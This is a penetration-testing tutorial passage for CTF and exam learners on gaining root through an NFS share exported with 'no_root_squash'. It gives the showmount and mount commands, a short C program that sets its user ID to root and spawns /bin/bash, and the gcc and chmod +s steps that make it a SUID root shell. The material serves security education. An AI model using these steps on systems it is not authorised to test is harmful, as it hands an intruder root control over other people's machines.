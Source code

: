Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.

NFS (Network File Sharing) configuration is kept in the `/etc/exports` file. This file is created during the NFS server installation and can usually be read by users.

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

We will start by enumerating mountable shares from our attacking machine.  
`showmount -e <IP>`

We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable.

```bash
$ mkdir /tmp/bckp-attacker
$ mount -t nfs <IP>:/tmp/bckp /tmp/bckp-attacker
```

As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job.

```c++
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Once we compile the code we will set the SUID bit.

```bash
$ gcc nfs.c -o nfs -w
$ chmod +s nfs
$ ls -l nfs
$ ./nfs
```

